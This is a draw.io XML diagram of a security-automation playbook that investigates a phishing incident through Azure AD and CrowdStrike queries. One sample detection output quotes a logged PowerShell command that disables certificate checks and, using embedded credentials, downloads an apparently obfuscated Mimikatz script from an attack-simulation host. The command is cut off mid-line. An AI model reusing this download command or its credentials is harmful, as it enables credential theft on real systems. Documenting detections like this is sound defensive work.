        <mxCell id="NKeEgVbL9whLPdXC6YmX-139" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;User&quot;: &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;User&quot;: &quot;Administrator&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="650" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-145" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-140" target="NKeEgVbL9whLPdXC6YmX-144">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-140" value="Unwind&lt;br&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3120" y="540" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-142" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[&quot;&quot;]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;Recipients Information from Azure AD&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Get user information from Azure AD&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[&quot;phish@d3soar.com&quot;,&quot;support@d3soar.com&quot;]&lt;/div&gt;&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="880" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-149" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-144" target="NKeEgVbL9whLPdXC6YmX-148">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-151" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-144" target="NKeEgVbL9whLPdXC6YmX-150">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-144" value="Get User Logon Info&lt;br&gt;Command - RSA_CrowdstrikeUserLogonActivity" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3320" y="540" width="290" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-146" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeUserLogonActivity&lt;/div&gt;&lt;div&gt;Parameter 1: Username&lt;/div&gt;&lt;div&gt;Administrator&lt;/div&gt;&lt;div&gt;Parameter 2: Last Hours&lt;/div&gt;&lt;div&gt;96&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3365" y="340" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-147" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3365" y="380" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-157" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-148" target="NKeEgVbL9whLPdXC6YmX-156">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-148" value="Extract Logon Host Aids&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3670" y="480" width="210" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-150" value="Investigation-Correlate User Logon Activity" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3670" y="620" width="240" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-152" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set hostAids = PlaybookData | jsonpath(&#39;$.[&quot;Get User Logon Info&quot;].returnData.resources[*].aid&#39;)|to_list|unique|remove_empty_value_from_array%}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{{hostAids}}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="310" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-153" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="350" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-154" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[{&#39;User Name&#39;: Undefined, &#39;Host Name&#39;: Undefined, &#39;Timestamp&#39;: Undefined, &#39;Local IP&#39;: &#39;&#39;, &#39;Remote IP&#39;: &#39;&#39;, &#39;Country&#39;: &#39;&#39;, &#39;City&#39;: &#39;&#39;}]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;User Login Activity in last 4 days&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[]&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="720" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-155" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="770" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-161" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-156" target="NKeEgVbL9whLPdXC6YmX-160">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-156" value="Merge Results&lt;br&gt;Merge" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4005" y="480" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-158" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;Merge&lt;/div&gt;&lt;div&gt;Parameter 1: Condition&lt;/div&gt;&lt;div&gt;{&quot;groupBy&quot;:&quot;Playbook Instance&quot;,&quot;dataJsonPath&quot;:&quot;$[&#39;Extract Logon Host Aids&#39;].returnData&quot;}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3990" y="320" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-159" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;options&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;groupBy&quot;: &quot;Playbook Instance&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;dataJsonPath&quot;: &quot;$[&#39;Extract Logon Host Aids&#39;].returnData&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;total&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;match&quot;: true&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3990" y="355" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-165" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-160" target="NKeEgVbL9whLPdXC6YmX-164">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-168" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-160" target="NKeEgVbL9whLPdXC6YmX-166">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-169" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-160" target="NKeEgVbL9whLPdXC6YmX-167">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-160" value="Reformat Data&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4280" y="480" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-162" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set data = PlaybookData | jsonpath(&#39;$.[&quot;Merge Results&quot;].rawData&#39;)|to_list %}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{% set outArray = []%}&lt;/div&gt;&lt;div&gt;{% for items in data if data%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% for item in items if items%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; {% set _temp = outArray.append(item)%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% endfor %}&lt;/div&gt;&lt;div&gt;{% endfor %}&lt;/div&gt;&lt;div&gt;{{outArray}}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4250" y="320" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-163" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4250" y="355" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-172" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-164" target="NKeEgVbL9whLPdXC6YmX-171">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-164" value="Host Related Detection&lt;br&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4580" y="350" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-175" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-166" target="NKeEgVbL9whLPdXC6YmX-173">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-166" value="Get Process Information&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4570" y="580" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-176" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-167" target="NKeEgVbL9whLPdXC6YmX-174">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-167" value="Get Network Connections&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4570" y="810" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-189" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-171" target="NKeEgVbL9whLPdXC6YmX-187">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-171" value="Get Host Related Detections from Crowdstrike&lt;br&gt;Command - RSA_CrowdstrikeHostRelatedDetection" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4800" y="350" width="340" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-184" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-173" target="NKeEgVbL9whLPdXC6YmX-183">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-188" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-173" target="NKeEgVbL9whLPdXC6YmX-187">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-173" value="Get Process Info by SHA256&lt;br&gt;Command - RSA_CrowdstrikeGetProcessbyIOCs" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4800" y="580" width="340" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-191" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-174" target="NKeEgVbL9whLPdXC6YmX-190">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-174" value="Get TCP Connection&lt;br&gt;Command - RSA_CrowdstrikeGetProcessbyIOCs" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4800" y="810" width="340" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-177" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeHostRelatedDetection&lt;/div&gt;&lt;div&gt;Parameter 1: Aids&lt;/div&gt;&lt;div&gt;[&quot; &quot;]&lt;/div&gt;&lt;div&gt;Parameter 2: Last Day&lt;/div&gt;&lt;div&gt;7&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="185" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-178" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;All cid related the host&lt;br&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;meta&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;query_time&quot;: 0.053,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;powered_by&quot;: &quot;legacy-detects&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;trace_id&quot;: &quot;e00a51e3-fe3d-4a13-bee1-840e2851d0be&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;resources&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cid&quot;: &quot;9140393f79cd4b3ca3298ec0d718d788&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;created_timestamp&quot;: &quot;2023-04-16T12:02:3.38Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;detection_id&quot;: &quot;ldt:6de5f3fad8004ca8a97cdc7c565edf9c:18566056045&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device_id&quot;: &quot;6de5f3fad8004ca8a97cdc7c565edf9c&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cid&quot;: &quot;9140393f79cd4b3ca3298ec0d718d788&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_load_flags&quot;: &quot;1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_local_time&quot;: &quot;2023-04-06T14:29:44.117Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_version&quot;: &quot;6.50.164.0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bios_manufacturer&quot;: &quot;VMware, Inc.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bios_version&quot;: &quot;VMW71.00V.13989454.B64.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_base&quot;: &quot;65994753&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_build&quot;: &quot;16410&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_platform&quot;: &quot;3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;external_ip&quot;: &quot;216.251.148.178&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hostname&quot;: &quot;WIN-5KM58PAUOE8&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;first_seen&quot;: &quot;2023-02-06T22:52:02Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;last_seen&quot;: &quot;2023-04-16T11:39:39Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;local_ip&quot;: &quot;192.168.87.139&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;mac_address&quot;: &quot;00-50-56-b7-f8-df&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;major_version&quot;: &quot;10&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;minor_version&quot;: &quot;0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;os_version&quot;: &quot;Windows Server 2016&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;platform_id&quot;: &quot;0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;platform_name&quot;: &quot;Windows&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;product_type&quot;: &quot;3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;product_type_desc&quot;: &quot;Server&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;status&quot;: &quot;normal&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;system_manufacturer&quot;: &quot;VMware, Inc.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;system_product_name&quot;: &quot;VMware7,1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;groups&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;5563d318b39c4b8395faa26eef031a35&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;modified_timestamp&quot;: &quot;2023-04-16T11:41:25Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;behaviors&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device_id&quot;: &quot;6de5f3fad8004ca8a97cdc7c565edf9c&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;timestamp&quot;: &quot;2023-04-16T12:01:48Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;template_instance_id&quot;: &quot;11&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;behavior_id&quot;: &quot;10147&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;filename&quot;: &quot;powershell.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;filepath&quot;: &quot;\\Device\\HarddiskVolume4\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;alleged_filetype&quot;: &quot;exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmdline&quot;: &quot;powershell \&quot;[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};\&quot; \&quot;[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;\&quot; \&quot;function get-hash([string]$textToHash){$hasher = new-object System.Security.Cryptography.MD5CryptoServiceProvider; $toHash = [System.Text.Encoding]::UTF8.GetBytes($textToHash); $hashByteArray = $hasher.ComputeHash($toHash); foreach($byte in $hashByteArray) {$result += &#39;{0:X2}&#39; -f $byte};return $result;};\&quot; \&quot;try{$webclient = new-object System.Net.WebClient; $credCache = new-object System.Net.CredentialCache; $creds = new-object System.Net.NetworkCredential(&#39;aiq_mlwre_scenarios&#39;,&#39;nTrBxu74T8u9&#39;);$credCache.Add(&#39;https://testing.scenarios.attackiq-ntm.com/124d22153e45aefaf7294d66846c876234b2b09cc4a16994de9756874d08df33/obf_mim.ps1&#39;, &#39;Basic&#39;, $creds);$webclient.Credentials = $credCache; 